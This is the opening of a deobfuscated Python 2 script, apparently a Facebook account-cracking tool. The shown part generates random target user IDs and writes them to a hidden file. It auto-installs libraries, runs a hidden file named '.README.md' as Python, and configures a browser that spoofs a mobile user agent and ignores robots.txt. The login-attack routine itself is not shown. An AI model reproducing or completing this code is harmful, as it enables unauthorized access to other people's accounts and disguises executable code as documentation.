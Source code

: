 # Deobfuscated BY HTR-TECH | Tahmid Rayat

# Github    : https://github.com/htr-tech 
# Instagram : https://www.instagram.com/tahmid.rayat
# Facebook  : https://fb.com/tahmid.rayat.oficial 
# Messenger : https://m.me/tahmid.rayat.oficial 

#!/usr/bin/python2
#coding=utf-8


import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,getpass
os.system("rm -rf .txt")
for n in range(150):

    nmbr = random.randint(100002020202020, 100009090909090)
    
    sys.stdout = open(".txt", "a")

    print(nmbr)

    sys.stdout.flush()
    
try:
    import requests
except ImportError:
    os.system('pip2 install requests')
    
try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
    time.sleep(1)
    os.system('python2 .README.md')
    
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser


reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]



